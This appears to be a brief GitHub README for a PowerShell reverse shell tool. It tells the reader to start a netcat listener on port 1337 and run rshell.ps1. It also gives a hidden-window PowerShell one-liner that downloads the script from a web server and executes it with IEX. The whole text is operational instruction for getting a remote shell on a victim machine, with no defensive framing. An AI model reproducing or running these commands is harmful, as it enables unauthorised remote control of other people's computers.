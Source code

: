 # Basic PowerShell reverse shell

1) Use "**nc -lp 1337**" to Start a Netcat listener on port defined in rshell file
2) Execute "**rshell.ps1**", optionally use: **powershell -w hidden "IEX (New-Object Net.WebClient).DownloadString('http://mywebsite.com/rshell.ps1');"** to download & execute reverse shell from a server
